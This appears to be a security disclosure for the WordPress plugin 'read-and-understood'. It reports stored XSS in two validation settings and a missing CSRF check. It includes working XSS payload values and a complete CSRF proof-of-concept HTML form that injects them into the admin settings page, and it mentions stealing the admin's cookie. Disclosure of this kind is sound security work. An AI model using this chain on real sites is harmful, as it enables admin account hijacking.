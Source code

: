 Well ,sir ,I just found some Stored-XSS bugs and a CSRF bug at wp-plugin read-and-understood.

#### Stored-XSS

When the admin user click the "Save changes" button in the read-and-understood setting page, we'll post some data to:

```
http://127.0.0.1/wordpress/wp-admin/options-general.php?page=read-and-understood-menu-slug-01
```

But when I pentest the  parameter in this plugin, I found when I write something into this point, it does not filter well.

Weak data parameters:

```
1.rnu_username_validation_title=at+least+one+but+no+more+than+10+capital+letters'"><svg/onload=console.log(/xss/)><'"
2.rnu_username_validation_pattern=%5BA-Z%5D%7B1%2C10%7D'"><svg/onload=console.log(/xss2/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/read-and-understood/xss.png)


#### CSRF

Well, the stored-xss bugs here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/wordpress/wp-admin/options-general.php?page=read-and-understood-menu-slug-01" method="POST">
      <input type="hidden" name="rnu&#95;username&#95;validation&#95;pattern" value="&#91;A&#45;Z&#93;&#123;1&#44;10&#125;&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss2&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="rnu&#95;username&#95;validation&#95;title" value="at&#32;least&#32;one&#32;but&#32;no&#32;more&#32;than&#32;10&#32;capital&#32;letters&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="rnu&#95;username" value="" />
      <input type="hidden" name="Submit" value="Save&#32;Changes" />
      <input type="hidden" name="submit&#95;hidden" value="Y" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

In a word, if the manager could be cheated to visit my evil html on my site, I can get the manager's cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin read-and-understood.